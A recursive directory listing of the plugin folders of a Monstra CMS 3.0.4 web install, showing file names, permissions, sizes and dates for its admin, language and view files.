drwxr-xr-x  5 root root 4.0K Apr  5  2016 backup
drwxr-xr-x  6 root root 4.0K Apr  5  2016 blocks
drwxr-xr-x  6 root root 4.0K Apr  5  2016 dashboard
drwxr-xr-x  4 root root 4.0K Apr  5  2016 editor
drwxr-xr-x  6 root root 4.0K Apr  5  2016 emails
drwxr-xr-x  7 root root 4.0K Apr  5  2016 filesmanager
drwxr-xr-x  5 root root 4.0K Apr  5  2016 information
drwxr-xr-x  6 root root 4.0K Apr  5  2016 menu
drwxr-xr-x  6 root root 4.0K Apr  5  2016 pages
drwxr-xr-x  6 root root 4.0K Apr  5  2016 plugins
drwxr-xr-x  5 root root 4.0K Apr  5  2016 sitemap
drwxr-xr-x  6 root root 4.0K Apr  5  2016 snippets
drwxr-xr-x  5 root root 4.0K Apr  5  2016 system
drwxr-xr-x  5 root root 4.0K Apr  5  2016 themes
drwxr-xr-x  6 root root 4.0K Apr  5  2016 users

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup:
total 28K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.9K Apr  5  2016 backup.admin.php
-rwxr-xr-x  1 root root  619 Apr  5  2016 backup.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  458 Apr  5  2016 backup.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup/languages:
total 84K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  520 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  970 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  604 Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root  551 Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root  569 Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root  550 Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root  506 Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root  571 Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root  546 Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root  523 Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root  566 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  515 Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root  913 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  543 Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root  516 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 1013 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  583 Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  492 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/backup/views/backend:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 2.4K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks:
total 36K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 7.2K Apr  5  2016 blocks.admin.php
-rwxr-xr-x  1 root root 3.0K Apr  5  2016 blocks.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  466 Apr  5  2016 blocks.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/js:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root  379 Apr  5  2016 blocks.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/languages:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 1.5K Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root 1.5K Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 1.6K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root 1.6K Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/blocks/views/backend:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 1.5K Apr  5  2016 add.view.php
-rwxr-xr-x 1 root root 1.8K Apr  5  2016 edit.view.php
-rwxr-xr-x 1 root root 2.9K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard:
total 32K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root 3.1K Apr  5  2016 dashboard.admin.php
-rwxr-xr-x  1 root root  678 Apr  5  2016 dashboard.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  478 Apr  5  2016 dashboard.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/js:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root 6.4K Apr  5  2016 ganalytics.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/languages:
total 44K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  336 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  322 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  335 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  412 Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root  333 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  365 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  340 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  316 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  378 Apr  5  2016 uk.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/dashboard/views/backend:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 4.0K Apr  5  2016 ga.view.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/editor:
total 20K
drwxr-xr-x  4 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  871 Apr  5  2016 editor.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages

/var/www/html/webservices/monstra-3.0.4/plugins/box/editor/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  458 Apr  5  2016 editor.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/editor/languages:
total 84K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  151 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root  179 Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root  155 Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root  167 Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root  158 Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root  207 Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root  166 Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root  153 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root  154 Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root  177 Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  151 Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root  155 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  166 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  179 Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  156 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails:
total 32K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 css
-rwxr-xr-x  1 root root 2.5K Apr  5  2016 emails.admin.php
-rwxr-xr-x  1 root root  658 Apr  5  2016 emails.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  4 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/css:
total 28K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root  14K Apr  5  2016 inc.css

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  470 Apr  5  2016 emails.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/languages:
total 44K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  845 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  809 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root  849 Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root  842 Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root  807 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root  853 Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root  818 Apr  5  2016 uk.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/views:
total 16K
drwxr-xr-x 4 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend
drwxr-xr-x 2 root root 4.0K Apr  5  2016 emails

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/views/backend:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 edit.view.php
-rwxr-xr-x 1 root root 1.4K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/emails/views/emails:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   67 Apr  5  2016 email_layout.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager:
total 44K
drwxr-xr-x  7 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 css
-rwxr-xr-x  1 root root  11K Apr  5  2016 filesmanager.admin.php
-rwxr-xr-x  1 root root  652 Apr  5  2016 filesmanager.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/css:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root  900 Apr  5  2016 style.css

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  493 Apr  5  2016 filesmanager.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/js:
total 24K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 filesmanager.js
-rwxr-xr-x 1 root root 4.4K Apr  5  2016 fileuploader.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/languages:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  613 Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root 1.7K Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 2.1K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 2.9K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root 1.9K Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root 2.0K Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 1.8K Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root 2.1K Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  589 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 7 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Feb 21  2018 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/filesmanager/views/backend:
total 20K
drwxr-xr-x 2 root root 4.0K Feb 21  2018 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  11K Feb 21  2018 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/information:
total 28K
drwxr-xr-x  5 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x  1 root root  625 Apr  5  2016 information.admin.php
-rwxr-xr-x  1 root root  653 Apr  5  2016 information.plugin.php
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
drwxr-xr-x  3 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/information/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  478 Apr  5  2016 information.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/information/languages:
total 92K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 2.7K Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root 3.1K Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 3.6K Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root 3.0K Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root 2.6K Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 4.4K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root 3.0K Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root 2.7K Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 3.8K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root 3.1K Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 3.2K Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root 3.8K Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root 3.0K Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/information/views:
total 12K
drwxr-xr-x 3 root root 4.0K Apr  5  2016 .
drwxr-xr-x 5 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend

/var/www/html/webservices/monstra-3.0.4/plugins/box/information/views/backend:
total 20K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 3 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 9.5K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/menu:
total 40K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
-rwxr-xr-x  1 root root  12K Apr  5  2016 menu.admin.php
-rwxr-xr-x  1 root root 1.3K Apr  5  2016 menu.plugin.php
drwxr-xr-x  4 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/menu/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  460 Apr  5  2016 menu.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/menu/js:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root  512 Apr  5  2016 menu.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/menu/languages:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root  953 Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root  969 Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root  970 Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 1.5K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root  979 Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 1017 Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 1.3K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root  987 Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root 1.2K Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root  934 Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/menu/views:
total 16K
drwxr-xr-x 4 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend
drwxr-xr-x 2 root root 4.0K Apr  5  2016 frontend

/var/www/html/webservices/monstra-3.0.4/plugins/box/menu/views/backend:
total 28K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 4.7K Apr  5  2016 add.view.php
-rwxr-xr-x 1 root root 4.8K Apr  5  2016 edit.view.php
-rwxr-xr-x 1 root root 2.9K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/menu/views/frontend:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 1.7K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/pages:
total 76K
drwxr-xr-x  6 root root 4.0K Apr  5  2016 .
drwxr-xr-x 17 root root 4.0K Apr  5  2016 ..
drwxr-xr-x  2 root root 4.0K Apr  5  2016 install
drwxr-xr-x  2 root root 4.0K Apr  5  2016 js
drwxr-xr-x  2 root root 4.0K Apr  5  2016 languages
-rwxr-xr-x  1 root root  36K Apr  5  2016 pages.admin.php
-rwxr-xr-x  1 root root  15K Apr  5  2016 pages.plugin.php
drwxr-xr-x  4 root root 4.0K Apr  5  2016 views

/var/www/html/webservices/monstra-3.0.4/plugins/box/pages/install:
total 12K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  464 Apr  5  2016 pages.manifest.xml

/var/www/html/webservices/monstra-3.0.4/plugins/box/pages/js:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root   31 Apr  5  2016 .htaccess
-rwxr-xr-x 1 root root 1.1K Apr  5  2016 pages.js

/var/www/html/webservices/monstra-3.0.4/plugins/box/pages/languages:
total 88K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 de.lang.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 en.lang.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 es.lang.php
-rwxr-xr-x 1 root root 2.5K Apr  5  2016 fa.lang.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 fr.lang.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 hu.lang.php
-rwxr-xr-x 1 root root 2.2K Apr  5  2016 id.lang.php
-rwxr-xr-x 1 root root 2.2K Apr  5  2016 it.lang.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 ja.lang.php
-rwxr-xr-x 1 root root 3.4K Apr  5  2016 ka-ge.lang.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 lt.lang.php
-rwxr-xr-x 1 root root 2.2K Apr  5  2016 nl.lang.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 pl.lang.php
-rwxr-xr-x 1 root root 2.2K Apr  5  2016 pt-br.lang.php
-rwxr-xr-x 1 root root 2.9K Apr  5  2016 ru.lang.php
-rwxr-xr-x 1 root root 2.3K Apr  5  2016 sk.lang.php
-rwxr-xr-x 1 root root 2.2K Apr  5  2016 sr.lang.php
-rwxr-xr-x 1 root root 2.4K Apr  5  2016 tr.lang.php
-rwxr-xr-x 1 root root 2.7K Apr  5  2016 uk.lang.php
-rwxr-xr-x 1 root root 2.1K Apr  5  2016 zh-cn.lang.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/pages/views:
total 16K
drwxr-xr-x 4 root root 4.0K Apr  5  2016 .
drwxr-xr-x 6 root root 4.0K Apr  5  2016 ..
drwxr-xr-x 2 root root 4.0K Apr  5  2016 backend
drwxr-xr-x 2 root root 4.0K Apr  5  2016 frontend

/var/www/html/webservices/monstra-3.0.4/plugins/box/pages/views/backend:
total 32K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root 6.3K Apr  5  2016 add.view.php
-rwxr-xr-x 1 root root 7.5K Apr  5  2016 edit.view.php
-rwxr-xr-x 1 root root 6.5K Apr  5  2016 index.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/pages/views/frontend:
total 16K
drwxr-xr-x 2 root root 4.0K Apr  5  2016 .
drwxr-xr-x 4 root root 4.0K Apr  5  2016 ..
-rwxr-xr-x 1 root root  229 Apr  5  2016 available_pages.view.php
-rwxr-xr-x 1 root root  384 Apr  5  2016 breadcrumbs.view.php

/var/www/html/webservices/monstra-3.0.4/plugins/box/plugins:
